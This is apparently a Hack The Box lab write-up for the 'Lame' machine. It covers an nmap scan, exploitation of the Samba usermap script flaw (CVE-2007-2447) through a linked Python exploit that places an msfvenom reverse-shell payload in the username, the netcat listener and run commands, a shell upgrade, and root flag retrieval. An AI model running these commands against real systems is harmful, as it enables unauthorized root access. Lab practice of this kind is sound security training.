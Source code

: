 ```yaml
---
description: Easy box Lame featuring an exploit in Samba
---
```


# HTB Lame

First thing to do is start scanning for open ports.&#x20;

```bash
➜  ~ sudo nmap -sV -sC -T4 -p- 10.10.10.3
[sudo] password for kali:
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-07 18:10 CEST
Stats: 0:02:09 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.86% done; ETC: 18:12 (0:00:00 remaining)
Nmap scan report for 10.10.10.3
Host is up (0.013s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m20s, deviation: 2h49m45s, median: 17s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-04-07T12:12:38-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.21 seconds
```

We have several open ports

<table><thead><tr><th width="191">Port</th><th>Description</th></tr></thead><tbody><tr><td>21</td><td>FTP has anonymous access enabled. Its vsftpd 2.3.4 which has serveral vulnerablities like RCE. In this box it could not be exploited.</td></tr><tr><td>22</td><td>SSH, in cases bruteforcing credentials is possible. Certain versions have vulnerablities.</td></tr><tr><td>139</td><td>Samba uses it for older clients</td></tr><tr><td>445</td><td>Samba or SMB running Samba 3.0.20 which is vulnerable to Remote Code Execution. </td></tr></tbody></table>

### <mark style="color:yellow;">CVE-2007-2447</mark>

Samba 3.0.20 also known as the usermap script vulnerablitiy. We can embed a payload in a malicious username with shell metacharachters. When authenticating the server will execute the command in the username. Below a working python script that works.&#x20;

{% embed url="https://github.com/n3rdh4x0r/CVE-2007-2447" %}

Run the python script

```bash
 python3 samba.py -lh 10.10.14.18 -lp 443 -t 10.10.10.3
```

Listen with netcat:

```bash
nc -lvnp 443
```

{% hint style="info" %}
The script works by using msfvenom to create the payload.  The vulnerability lies in the username where we see on line 49:\


It saves the msfvenom payload in the buf variable\
`buf = generate_payload(args.lh, int(args.lp)).decode()`&#x20;

\
In the userID variable where we call the buf variable and thus the msfvenom payload will be executed. Using nohup will keep processes/jobs running.&#x20;

``userID = "/=` nohup " + buf + ""``
{% endhint %}

### <mark style="color:yellow;">Reverse shell</mark>&#x20;

After running the script we will get connection on our netcat listener on port 443. Often when getting a shell we find we have a very limited shell and things `ctrl + l` dont work. We can upgrade our shell.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Then type `ctrl + z`.

```bash
stty raw -echo; fg
exptort TERM=xterm
```

With a more functional shell we can get the flags. By checking our right we find we are root user and so we can get user and root flag.&#x20;

```bash
root@lame: find / -name user.txt 2>/dev/null
/home/makis/user.txt

root@lame: cat /home/makis/user.txt
<redacted>

root@lame: cat /root/root.txt
<redacted>
```



